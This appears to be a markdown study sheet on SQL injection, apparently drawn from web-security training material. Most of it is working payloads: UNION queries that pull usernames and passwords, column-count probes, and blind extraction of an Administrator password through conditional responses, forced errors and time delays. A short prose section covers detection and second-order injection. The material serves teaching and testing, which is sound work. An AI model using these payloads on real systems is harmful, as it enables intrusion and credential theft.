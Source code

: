 # Web Security resources 


#### Retrieving data from other database tables

```sql
>  ' UNION SELECT username, password FROM users-- 
```
For a UNION query to work, two key requirements must be met:

- The individual queries must return the same number of columns.
- The data types in each column must be compatible between the individual queries.

##### Determining the number of columns required in an SQL injection UNION attack

```sql
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 1-- ... ERROR!

' UNION SELECT NULL-- ERROR!
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL-- ERROR!
```

#### Examining the database

```sql
> SELECT * FROM information_schema.tables 
```

#### Blind SQL injection vulnerabilities

##### Exploiting blind SQL injection by triggering conditional responses

```sql
> xyz' UNION SELECT 'a' WHERE 1=1--
> xyz' UNION SELECT 'a' WHERE 1=2-- 

> xyz' UNION SELECT 'a' FROM Users WHERE Username = 'Administrator' and SUBSTRING(Password, 1, 1) > 'm'--
> xyz' UNION SELECT 'a' FROM Users WHERE Username = 'Administrator' and SUBSTRING(Password, 1, 1) > 't'-- 
...
> xyz' UNION SELECT 'a' FROM Users WHERE Username = 'Administrator' and SUBSTRING(Password, 1, 1) = 's'-- 
```
##### Inducing conditional responses by triggering SQL errors

```sql
> xyz' UNION SELECT CASE WHEN (1=2) THEN 1/0 ELSE NULL END--
> xyz' UNION SELECT CASE WHEN (1=1) THEN 1/0 ELSE NULL END-- 
> xyz' union select case when (username = 'Administrator' and SUBSTRING(password, 1, 1) > 'm') then 1/0 else null end from users-- 
> ... TO_CHAR(1/0) ... 
```

##### Exploiting blind SQL injection by triggering time delays

```sql
> '; IF (1=2) WAITFOR DELAY '0:0:10'--
> '; IF (1=1) WAITFOR DELAY '0:0:10'-- 
> '; IF (SELECT COUNT(username) FROM Users WHERE username = 'Administrator' AND SUBSTRING(password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'-- 

> dbms_pipe.receive_message(('a'),10) Oracle
>	WAITFOR DELAY '0:0:10' Microsoft
>	SELECT pg_sleep(10) PostgreSQL
>	SELECT sleep(10) MySQL
```

#### How to detect SQL injection vulnerabilities

```sql
> '
> OR 1=1 | OR 1=2
```

#### SQL injection in different parts of the query

- In UPDATE statements, within the updated values or the WHERE clause.
- In INSERT statements, within the inserted values.
- In SELECT statements, within the table or column name.
- In SELECT statements, within the ORDER BY clause.

#### Second-order SQL injection

 First-order SQL injection arises where the application takes user input from an HTTP request and, in the course of processing that request, incorporates the input into an SQL query in an unsafe way.

In second-order SQL injection (also known as stored SQL injection), the application takes user input from an HTTP request and stores it for future use. 

#### Database-specific factors

- [Cheatsheet of different databases](https://portswigger.net/web-security/sql-injection/cheat-sheet)












